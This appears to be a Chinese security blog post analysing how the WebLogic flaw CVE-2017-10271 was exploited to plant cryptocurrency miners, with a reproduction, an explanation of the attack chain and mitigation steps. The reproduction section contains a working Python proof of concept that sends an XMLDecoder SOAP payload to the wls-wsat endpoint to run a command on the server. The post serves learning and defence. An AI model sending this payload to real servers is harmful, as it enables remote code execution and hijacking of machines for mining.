 ```yaml
---
title: Weblogic 漏洞被利用挖矿
date: 2018-01-22 18:13:23
tags:
		- Weblogic
categories:
		- 安全研究
---
```


`Weblogic`漏洞被利用来挖矿，客户受到了影响。学习一下其中的原理。

<!-- more -->

#### 背景

2017年12月中旬，安全研究者爆出未打补丁的`WebLogic`版本存在的漏洞，可能被`watch-smarted`挖矿恶意软件利用。

攻击者利用`Weblogic WLS`组件漏洞(`CVE-2017-10271`)，构造`payload`下载并执行虚拟币挖矿程序，对`Weblogic`中间件主机进行攻击。

**影响版本**

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-22/59187743.jpg)


#### 漏洞复现

[安装Webloginc](http://blog.csdn.net/acmman/article/details/70093877)

访问 `7001`端口

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-22/71865798.jpg)

脚本弹计算器。就是一个请求，把其中的恶意代码写在了`POST`的`xml`里面。关键是其中的利用代码的编写。



	#! -*- coding:utf-8 -*-
	import requests
	 
	url = "http://127.0.0.1"7001/wls-wsat/CoordinatorPorType"
	xml = '''
	    <soapenv:Envelope     xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
	
	    <soapenv:Header>
	       <work:WorkContext    xmlns:work="http://bea.com/2004/06/soap/workarea/">
	           <java      version="1.8" class="java.beans.XMLDecoder">
	                <void     class="java.lang.ProcessBuilder">
	                    <array    class="java.lang.String" length="3">
	                        <void     index="0">
	                            <string>calc</string>
	                        </void>
	                        <void     index="1">
	                            <string>/c</string>
	                        </void>
	                        <void     index="2">
	                            <string></string>
	                        </void>
	                    </array>
	                <void     method="start"/></void>
	           </java>
	       </work:WorkContext>
	   </soapenv:Header>
	    <soapenv:Body/>
	    </soapenv:Envelope>
	'''
	r =requests.post(url,headers={'Content-Type':'text/xml','Cache-Control':'no-cache'},data=xml)
	print r.status_code
	
	print r.text

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-22/13275873.jpg)

抓包修改

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-22/34403717.jpg)

#### 挖矿分析

使用`top`命令查看`CPU`利用情况。

通过`POC`可以知道，在xml中的string标签的字符串为远程执行的命令内容。攻击者首先下载`setup-watch`的`shell`脚本，其作用是下载并运行`watch-smartd`挖矿程序。

#### 漏洞分析

找了两篇从代码层面的分析文章，学习一下其中的原理。

[Weblogic XMLDecoder RCE分析](https://paper.seebug.org/487/)

[WebLogic WLS-WebServices组件反序列化漏洞分析](https://xianzhi.aliyun.com/forum/topic/1849)

#### 缓解措施

攻击者利用的是`wls-wsat`组件的`CoordinatorPorType`接口，若`Weblogic`服务器集群中应用此组件，建议临时备份后将此组件删除，并重启服务器。

根据自己服务器的实际路径，删除该组件

	rm -f/home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war 
	rm -f/home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war 
	rm -rf/home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat 

重启`Weblogic`服务

	


#### 参考

[Weblogic WLS 组件漏洞](http://blog.nsfocus.net/weblogic-solution/)

[利用WebLogic 漏洞挖矿事件分析](https://cert.360.cn/static/files/利用WebLogic漏洞挖矿事件分析.pdf)

[Weblogic XMLDecoder RCE分析](https://paper.seebug.org/487/)

[WebLogic WLS-WebServices组件反序列化漏洞分析](https://xianzhi.aliyun.com/forum/topic/1849)

[利用服务器漏洞挖矿黑产案例分析](http://www.freebuf.com/articles/system/129459.html)






